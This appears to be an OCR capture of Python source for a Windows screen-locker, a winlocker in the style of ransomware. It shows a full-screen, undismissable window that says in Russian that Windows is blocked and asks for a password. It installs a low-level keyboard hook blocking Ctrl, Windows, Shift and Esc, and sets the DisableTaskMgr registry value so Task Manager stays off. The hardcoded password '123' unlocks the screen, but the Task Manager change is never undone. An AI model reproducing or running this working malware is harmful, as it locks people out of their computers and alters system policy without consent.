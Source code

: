 -import ctypes
import time
import winreg as reg
from tkinter import *
import threading

# Constants for keyboard hook
WH_KEYBOARD_LL = 13
WM_KEYDOWN = 0x0100
WM_KEYUP = 0x0101

# Virtual key codes to block
blocked_keys = {0x11, 0x5B, 0x5C, 0x10, 0x1B}

# Define the KBDLLHOOKSTRUCT structure
class KBDLLHOOKSTRUCT(ctypes.Structure):
    _fields_ = [
        ("vkCode", ctypes.c_uint),
        ("scanCode", ctypes.c_uint),
        ("flags", ctypes.c_uint),
        ("time", ctypes.c_uint),
        ("dwExtraInfo", ctypes.POINTER(ctypes.c_ulong))
    ]

# Define the hook procedure
LowLevelKeyboardProc = ctypes.WINFUNCTYPE(ctypes.c_int, ctypes.c_int, ctypes.c_int, ctypes.POINTER(KBDLLHOOKSTRUCT))
hook_id = None

def low_level_keyboard_proc(nCode, wParam, lParam):
    if nCode == 0:
        kbd = ctypes.cast(lParam, ctypes.POINTER(KBDLLHOOKSTRUCT)).contents
        if wParam == WM_KEYDOWN or wParam == WM_KEYUP:
            if kbd.vkCode in blocked_keys:
                return 1  # Block the key
    return ctypes.windll.user32.CallNextHookEx(hook_id, nCode, wParam, lParam)

low_level_keyboard_proc_ptr = LowLevelKeyboardProc(low_level_keyboard_proc)

def set_hook():
    global hook_id
    hook_id = ctypes.windll.user32.SetWindowsHookExW(WH_KEYBOARD_LL, low_level_keyboard_proc_ptr, ctypes.windll.kernel32.GetModuleHandleW(None), 0)
    if not hook_id:
        raise ctypes.WinError(ctypes.get_last_error())

def remove_hook():
    if hook_id:
        ctypes.windll.user32.UnhookWindowsHookEx(hook_id)

def quit():
    pass

def CheckPassword(event=None):
    if password.get() == "123":
        root.destroy()
        remove_hook()

def disable_task_manager():
    try:
        key = reg.OpenKey(reg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Policies\System", 0, reg.KEY_SET_VALUE)
    except FileNotFoundError:
        try:
            key = reg.CreateKey(reg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Policies\System")
        except Exception as e:
            print(f"Failed to create registry key: {e}")
            return

    try:
        reg.SetValueEx(key, "DisableTaskMgr", 0, reg.REG_DWORD, 1)
        print("Task Manager access has been disabled.")
    except Exception as e:
        print(f"Failed to set registry value: {e}")
    finally:
        reg.CloseKey(key)

def keep_alive():
    msg = ctypes.wintypes.MSG()
    while ctypes.windll.user32.GetMessageW(ctypes.byref(msg), 0, 0, 0) != 0:
        ctypes.windll.user32.TranslateMessage(ctypes.byref(msg))
        ctypes.windll.user32.DispatchMessageW(ctypes.byref(msg))

if __name__ == "__main__":
    root = Tk()
    X = root.winfo_screenwidth()
    Y = root.winfo_screenheight()
    bg = "black"
    font = "Arial 25 bold"
    root["bg"] = bg

    root.protocol("WM_DELETE_WINDOW", quit)
    root.attributes("-topmost", 1)
    root.geometry(f"{X}x{Y}")
    root.overrideredirect(1)

    Label(text="Ваш Windows заблокирован", fg="red", bg=bg, font=font).pack()
    Label(text="\n\n\n\nвведите пароль", fg="white", bg=bg, font=font).pack()

    password = Entry(font=font)
    password.pack()
    password.bind("<Return>", CheckPassword)

    disable_task_manager()

    # Setting up the keyboard hook
    set_hook()

    # Start the message loop in a separate thread
    threading.Thread(target=keep_alive, daemon=True).start()

    root.mainloop()
